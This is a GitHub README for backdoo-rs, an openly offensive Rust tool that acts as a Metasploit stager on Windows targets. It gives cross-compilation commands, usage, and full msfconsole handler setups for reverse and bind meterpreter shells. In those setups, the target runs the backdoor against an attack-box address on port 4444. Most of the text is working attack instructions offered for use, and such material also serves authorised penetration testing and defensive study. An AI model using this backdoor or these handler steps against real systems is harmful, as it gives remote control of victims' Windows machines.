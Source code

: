 # backdoo-rs

[![](https://img.shields.io/github/stars/0xdea/backdoo-rs.svg?style=flat&color=yellow)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/forks/0xdea/backdoo-rs.svg?style=flat&color=green)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/github/watchers/0xdea/backdoo-rs.svg?style=flat&color=red)](https://github.com/0xdea/backdoo-rs)
[![](https://img.shields.io/badge/twitter-%400xdea-blue.svg)](https://twitter.com/0xdea)
[![](https://img.shields.io/badge/mastodon-%40raptor-purple.svg)](https://infosec.exchange/@raptor)

> "Launch the Polaris  
> The end doesn't scare us  
> When will this cease?  
> The warheads will all rust in peace"
>
> -- Megadeth, Rust in Peace... Polaris (1990)

Minimalistic Rust implementation of the main staging protocols used by the Metasploit Framework.
Start an `exploit/multi/handler` instance on the attack box configured to handle one of the supported
payloads, run `backdoo-rs.exe` on the target Windows system, and enjoy your session!

Blog post:  
https://security.humanativaspa.it/learning-rust-for-fun-and-backdoo-rs

See also:  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.py  
https://github.com/0xdea/tactical-exploitation/blob/master/letmein.ps1  
https://github.com/0xdea/tactical-exploitation/blob/master/letme.go

## Cross-compiling

```
[macOS example]
$ brew install mingw-w64
$ rustup target add x86_64-pc-windows-gnu
$ cargo build --release --target x86_64-pc-windows-gnu
```

## Usage

```
C:\> backdoo-rs.exe [:port | host:port]
```

## Examples

Reverse shell:

```
[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.66
msf > exploit

[on the target box]
C:\> backdoo-rs.exe 192.168.0.66:4444
```

Bind shell:

```
[on the target box]
C:\> backdoo-rs.exe :4444

[on the attack box]
$ msfconsole
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf > set RHOST 192.168.0.20
msf > exploit
```

## Supported payloads

* windows/x64/meterpreter/reverse_tcp
* windows/x64/meterpreter/bind_tcp

## Tested on

* Microsoft Windows 10
* Microsoft Windows 11
* Microsoft Windows Server 2016
* Microsoft Windows Server 2019
* Microsoft Windows Server 2022

